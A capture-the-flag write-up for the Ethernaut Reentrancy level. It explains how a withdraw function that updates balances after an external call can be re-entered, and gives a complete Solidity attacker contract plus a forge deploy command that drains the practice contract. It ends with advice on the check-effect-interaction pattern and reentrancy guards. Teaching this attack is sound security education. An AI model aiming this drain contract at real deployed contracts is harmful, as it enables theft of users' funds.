 <div align="center">

<img src="../assets/levels/10-reentrancy.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 10 - Reentrancy</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Objectif

<img src="../assets/requirements/10-reentrancy-requirements.webp" width="800px"/>

## The hack

In this level, we have to drain all the funds from the contract. We have to be familiar with reentrancy attacks, and that is what this very simple example is for.

A reentrancy attack can happen after an external call to another contract. For instance, upon receiving ether, the contract can respond to the transfer. That is when we can "reenter" the contract. And that is why the "Check-Effect-Interaction" pattern or CEI matters.

In this case, the `msg.sender`'s balance is updated AFTER the external call, which leaves the door open for a reentrancy attack.

```javascript
function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```

How does the attack work?

Since the balance is updated after the external call, we can call the `withdraw` function, and reenter the contract via a `fallback()` function upon receiving ether. At this point, despite having already withdrawn our balance, we can withdraw again since the state hasn't been updated yet!

```javascript
// This will always be true
balances[msg.sender] >= _amount;
```

We can repeat this process until the contract is drained. The withdraw function will finally finish its execution and update our balance... a little too late.

Hence the CEI:

- <b>Check: Make sure all your inputs and conditions are correct.
- Effect: Update all states.
- Interaction: Interact with other contracts.</b>

## Solution

Let's take advantage of the `withdraw` function to reenter the contract and drain it since it lacks a proper CEI pattern.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint256 _amount) external;
}

contract Reentered {
    address private immutable target;
    uint256 donation = 0.001 ether;

    constructor(address _target) public {
        target = _target;
    }

    receive() external payable {
        if (target.balance >= donation) {
            IReentrance(target).withdraw(donation);
        }
    }

    function attack() public payable {
        // 1. Donate so you have some funds to withdraw
        IReentrance(target).donate{value: donation}(address(this));
        // 2. Call the withdraw function to start the reentrancy
        IReentrance(target).withdraw(donation);
        // 3. The contract has been drained successfully
        require(address(target).balance == 0, "Reentrancy failed!");
        // 4. Withdraw the funds from the attacker contract
        withdraw();
    }

    function withdraw() public {
        uint256 bal = address(this).balance;
        (bool success, ) = msg.sender.call{value: bal}("");
        require(success, "Transfer Failed");
    }
}
```

Then, you can use forge scripts to deploy this contract and call the `attack` function:

```bash
forge script script/10_Reentrancy.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

> Note: Since the contract starts with `0.001 ether`, leaving its balance at 0 is fairly simple. For a more "realistic" approach, you would have to improve the calculation's method to drain the contract's balance entirely.

## Takeaway

- <b>CHECK-EFFECT-INTERACTION pattern</b> must be systematically followed.
- Use a reentrancy guard if in doubt. Better safe than sorry.

## Reference

- The DAO hack: https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942
- Advanced reentrancy on Curve pools: https://hackmd.io/@vyperlang/HJUgNMhs2

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
